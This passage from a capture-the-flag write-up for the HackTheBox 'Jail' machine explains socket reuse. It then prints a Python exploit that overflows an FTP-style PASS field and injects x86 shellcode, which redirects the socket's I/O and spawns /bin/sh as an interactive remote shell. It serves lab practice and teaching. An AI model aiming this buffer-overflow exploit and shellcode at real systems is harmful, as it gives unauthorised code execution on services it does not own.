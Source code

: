 ![spwaned-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Jail/img/spawnd-31.png)


This is great, but at the moment, we can't interact with this shell. To solve this issue, we need to incorporate a conecept called `socket reuse`. 


In short, we need to define a function that can take the socket file descriptor object, and parse the stdin, stdout & stderr I/O channels, redirecting them between ourselvs and our target through the original socket connection. 


All in all my final exploit looks like this:

```python
#!/usr/bin/python3
import socket, select, time

shellcode = b""
shellcode += b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
shellcode += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
shellcode += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
shellcode += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
shellcode += b"\x89\xe3\x31\xc9\xcd\x80"

username = b'USER admin'
passwd = b'PASS '

offset = 28                         
eip = int('ffffc7f0', 16) + 32     
eip = eip.to_bytes(4, 'little')
pad = b'A' * offset

payload = passwd + pad + eip + shellcode


def shell(fd):
    while True:
        inputready, outputready, exceptready = select.select([fd], [fd], [])
        if len(inputready) != 0:
            recvd = [ _ for _ in fd.recv(1024).decode('iso-8859-1').split("\n") if _ ]
            if recvd:
                print("\n".join(recvd))
        else:
            command = input("shell> ")
            if command.lower() == "exit":
                break
            fd.send(command.encode()+b"\n")
            time.sleep(0.1)


try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('localhost', 7411))
    sock.recv(1024)
    sock.send(username)        # Send 'USER admin' command

    sock.recv(1024)
    sock.send(payload)         # Send the payload
    
    shell(sock)		       # Start interactive shell

except Exception as e:
```